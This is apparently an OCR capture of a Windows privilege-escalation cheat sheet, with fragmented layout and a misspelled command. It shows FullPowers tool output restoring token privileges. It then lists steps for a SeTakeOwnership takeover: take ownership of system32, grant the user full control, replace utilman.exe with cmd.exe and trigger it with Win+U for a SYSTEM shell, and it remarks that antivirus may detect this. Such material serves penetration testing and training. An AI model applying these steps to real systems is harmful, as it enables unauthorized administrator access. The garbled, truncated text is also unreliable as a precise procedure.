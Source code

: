 ```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.
```

```
C:\WINDOWS\system32>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token Enabled
SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled
SeAuditPrivilege Generate security audits Enabled
```

**5. Lock the console**

**and press Win+U**

**SeTakeOwnership Admin**

**Built-in**

**commands**

**1. takeown.exe /f**

```
"%windir%\system32"
```

**2. icalcs.exe**

```
"%windir%\system32"
/grant
"%username%":F
```

**3. Rename cmd.exe to**

**utilman.exe**

**4. Lock the console**

**and press Win+U**

**Attack may be detected by**

**some AV software.**

**Alternative method relies**

**on replacing service**
